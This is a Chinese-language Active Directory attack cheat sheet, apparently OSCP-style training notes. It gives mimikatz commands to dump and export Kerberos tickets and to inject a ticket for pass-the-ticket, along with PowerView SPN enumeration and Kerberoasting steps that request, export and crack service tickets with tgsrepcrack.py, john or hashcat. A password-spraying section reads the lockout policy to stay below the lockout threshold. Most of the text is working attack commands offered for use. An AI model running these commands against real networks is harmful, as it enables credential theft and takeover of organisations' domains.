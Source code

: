 显示存储在内存中的用户票证
```
sekurlsa::tickets
```

导出票据(会生成很多.kirbi文件)
```
sekurlsa::tickets /export
```

票据传递,将票据文件注入内存（PTT）
```
mimikatz "kerberos::ptt "[0;4ee98c]-2-0-60a00000-Administrator@krbtgt-GOD.ORG.kirbi"
```

## SPN破解

查找所有SPN(powerview)
```
Get-NetUser -spn |select userprincipalname,serviceprincipalname
```

请求票据
```
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList 'HTTP/CorpWebServer.corp.com'
```

查看
```
klist
```

导出票据
```
kerberos::list /export
```

使用tgsrepcrack.py破解，也可以使用john或者hashcat
```
python /usr/share/kerberoast/tgsrepcrack.py wordlist.txt 1-40a50000-Offsec@HTTP~CorpWebServer.corp.com-CORP.COM.kirbi
```

## 低速密码猜测

查看密码账号策略
```
PS C:\Users\Offsec.corp> net accounts
Force user logoff how long after time expires?:       Never
Minimum password age (days):                          0
Maximum password age (days):                          42
Minimum password length:                              0
Length of password history maintained:                None
Lockout threshold:                                    5
Lockout duration (minutes):                           30
Lockout observation window (minutes):                 30
Computer role:                                        WORKSTATION
The command completed successfully.
```
Lockout threshold=5,表示锁定之前的五次登录尝试限制。这意味着我们可以安全地尝试四次登录而不会触发锁定
